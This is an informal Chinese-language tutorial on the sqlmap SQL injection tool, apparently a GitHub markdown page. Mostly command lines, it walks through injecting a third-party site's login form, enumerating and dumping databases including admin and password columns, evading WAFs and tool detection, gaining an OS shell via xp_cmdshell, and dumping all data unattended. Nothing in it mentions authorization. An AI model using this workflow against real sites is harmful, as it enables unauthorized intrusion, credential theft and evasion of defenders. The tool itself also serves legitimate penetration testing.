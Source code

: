 Sqlmap
======

注入分法不同，种类不同，来个简单的分类：<br/>

        1.get型:        sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx"
        2.post型:       sqlmap -u "http://xxx.xx.xxx/xx.xxx" --data="xxxx=xxxx&xxxx=xxx"
        3.cookie类注入: sqlmap -u "http://xxx.xx.xxx/xx.xxx?xx=xxx" --cookie="xxx=xxx&xxx=xxx" --level=2


需要数据库好：<br/>

        --dbs
得到数据库名称xxx，需要表： <br/>

        -D xxx --tables
得到表名xxxx，需要段：<br/>

        -D xxx -T xxxx --columns
得到段内有admin，password，需要值：<br/>

        -D xxx -T xxxx -C "admin,password" --dump

那么我们来理解一下，-D -T -C 是干吗的，当然就是知道其名称，指定使用它。<br/>
--dbs --tables --columns 是干吗的，当然就是不知道名称，列出来呗<br/>
--dump 那自然就是字面意思，类似于导出数据的行为<br/>
其实注入有了上面这几个命令，妥妥的够用了，不过还需要绕waf：<br/>

        --tamper=""
注入被识别出来是工具，断开咋办：<br/>

        --user-agent=""


好，跑数据库就是这么简单，于是呢来一个稍微有点干货的例子：<br/>
&http://www.xxx.com/login.asp有post注入，我想日了,但是我不想出去拷贝post数据，很麻烦，我想让sqlmap自动跑post注入<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms
很好，上面的命令成功的帮我跑了post注入，并且找到了post的注入点jjj=123，于是我用的命令看看数据库<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --dbs
顺便看看当前用户是不是dba<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj --is-dba
        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -a 
用了上面的命令 -a能得到什么呢：自己去看帮助吧。<br/>
帮你筛选了一下，-a下面的那些命令是用来看用户，看主机，看权限的。<br/>
我发现权限还是挺高的，同时呢，我跑出来了数据库名称kkk<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --tables
同时我找到了网站路径，然后我就又一次找到了sqlmap的牛逼的--os-xx系列命令，可以执行系统命令，同时还发现了牛逼的xpcmdshell<br/> 

        --os-shell
以及很多牛逼的文件操作命令<br/>

        --file-xx 
这些命令在需要用的时候使用就是了，会给你带来意想不到的惊喜<br/>
与此同时，我发现tables里面没有我想要的东西，我也找不到合适的内容，咋办呢，心一横，我决定把所有的数据库内容跑出来自己找，<br/>
于是我这么做：<br/>

        sqlmap -u "http://www.xxx.com/login.asp" --forms -p jjj -D kkk --dump-all
然后牛逼的sqlmap就开始跑啊跑，然后紧接着我的蛋就碎了，尼玛，sqlmap一会就问你一次要不要破解密码<br/>
，要不要这个，要不要那个，我和我的小朋友们都想擦你妹夫，功夫不负有心人，我又看见了一个命令 <br/>

        --batch 
可以自动选择sqlmap默认选项，于是，我可以和我的小朋友们玩耍去了，再也不用看着sqlmap拖库了。<br/>



总结下来，帮助文档还是很重要的，多看看，总会有些收获：<br/>
为了避免各位看英文看到吐，大概总结下：<br/>
```
* Target:       字面意思，目标，那么就是确定目标的
* Request:      字面意思，请求，就是定义请求内容的，比如post数据，http头，cookie注入，http头污染等等
* Optimization：字面意思，调节性能，等等
* Injection:    字面意思，注入的设置内容基本在这里，比如指定注入点，指定db，指定系统，等等
* Detection:    基本就是用在确认注入范围，寻找注入点区域，这些
* Technique:    基本用在确定注入手段，以及攻击方式
* Fingerprint:  基本用在指纹识别，用的很少
* Enumeration:  枚举信息，主要用在注入中，很重要，很常用
* Brute force:  用来爆破，其实主要是枚举tables columns用的
* User-defined function injection:      现在只有udf提权，以及指定一些自己定义的sqlmap脚本用，高端使用，求大牛指点
* File system access:                   主要是文件读取，文件写入
* Operating system access:              主要用在对系统操作，例如os-shell 以及 后续的连接metasploit 实现后渗透攻击
* windows registry access:              基本就是注册表操作了
* General:                              字面意思，综合的内容，一些特殊的功能实现，我在这里找到了crawl batch这些非常好用的参数
* Miscellaneous:                        目测高端应用，还没怎么用过，求大神指教
```
